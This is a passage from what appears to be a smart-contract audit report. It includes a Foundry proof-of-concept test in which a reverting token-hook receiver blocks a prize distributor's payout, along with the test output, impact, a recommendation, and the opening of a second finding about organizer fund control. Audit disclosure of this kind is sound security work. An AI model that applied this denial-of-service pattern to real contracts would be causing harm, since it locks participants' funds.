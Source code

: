 ```
        (bool s,) = to.call(abi.encodeWithSignature("tokensReceived(address,address,uint256)", from, to, amount));
        require(s, "transfer failed");
    }
}

contract UnhappyWinner {
    function tokensReceived(address,address,uint) external {
        revert();
    }
}

function testDoSAttack() public {
    ExploitToken token = new ExploitToken("Exploit Token", "EXT");
    token.setHookException(address(distributor));
    token.mint(address(distributor), 100e18);
    UnhappyWinner unhappyWinner = new UnhappyWinner();
    vm.startPrank(factoryAdmin);
    uint winnerCount = 10;
    address[] memory winners = new address[](winnerCount);
    uint[] memory percentages = new uint[](winnerCount);
    for (uint i = 0; i < winnerCount; i++) {
        winners[i] = address(uint160(i + 1));
    }
    winners[0] = address(unhappyWinner);
    for (uint i = 0; i < winnerCount; i++) {
        percentages[i] = 9500 / winnerCount;
    }

    vm.expectRevert("transfer failed");
    distributor.distribute(address(token), winners, percentages, bytes("0"));
    vm.stopPrank();
}
```

### Test
```forge test --match-test testDoSAttack -vvv```

### Output
```[PASS] testDoSAttack() (gas: 845199)```
Commenting `winners[0] = address(unhappyWinner);` will cause a test to fail because no exception will be emitted.


## Impact
While an organiser can remove unhappy winners and distribute their shares to other participants it'll probably be both painful and costly if there are a few of them so it's better to avoid it.
## Tools Used

## Recommendations
Don't whitelist tokens allowing transfer hooks
## <a id='M-02'></a>M-02. Malicious organizer can steal supporter winnings



## Summary
The contract allows an organizer to manage their funds. This is NOT what an escrow is supposed to do.

## Vulnerability Details
Escrow definition from investopedia:
Escrow is a legal concept describing a financial agreement whereby an asset or money is held by a third party on behalf of two other parties that are in the process of completing a transaction.
```